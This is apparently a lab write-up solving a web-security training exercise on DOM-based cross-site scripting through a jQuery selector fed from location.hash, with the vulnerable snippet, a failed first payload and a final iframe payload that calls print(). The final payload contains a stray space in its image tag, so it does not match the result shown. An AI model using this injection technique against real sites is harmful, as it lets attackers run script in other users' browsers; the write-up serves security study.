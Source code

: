 # Lab 6: DOM XSS in jQuery selector sink using a hashchange event

---

## 🎯 Mission Description  
This lab has a DOM XSS vulnerability because it uses jQuery's `$()` selector with data taken directly from `location.hash` without sanitization. The vulnerable jQuery version interprets injected HTML, allowing arbitrary JavaScript execution when the hash changes.

---

## 🎯 Mission Objective  
Trigger the `print()` function in the victim's browser.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```javascript
   $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
   });

→ This takes whatever is after the # in the URL, decodes it, and places it inside the :contains() selector. jQuery 1.8.2 will treat HTML in the selector as actual DOM elements.

    ❌ First try (direct injection in hash):

    https://LAB-ID.web-security-academy.net/#<img src=x onerror=print()>

    Result:
    Code didn’t execute immediately because the event only fires when the hash changes after page load.

    ✅ Working approach:

        Use an <iframe> to load the page with a harmless hash.

        On the iframe’s onload, append the malicious payload to src, causing a hash change and triggering the vulnerable code.

✅ Final Payload

<iframe src="https://LAB-ID.web-security-academy.net//#" onload="this.src+='<im g src=x onerror=print()>'"></iframe>

🔎 Which results in:

<section class="blog-list">
    <h2><img src="x" onerror="print()"></h2>
</section>

💥 print() executes as soon as the hashchange event fires.
🧠 Notes

    Vulnerability is due to unsafe use of user input inside jQuery selectors.

    Old jQuery versions (< 3.5.0) can interpret injected HTML in selectors.

    Payload only triggers when the hash actually changes, hence the need for the iframe trick.

✅ Status: Solved 🎉
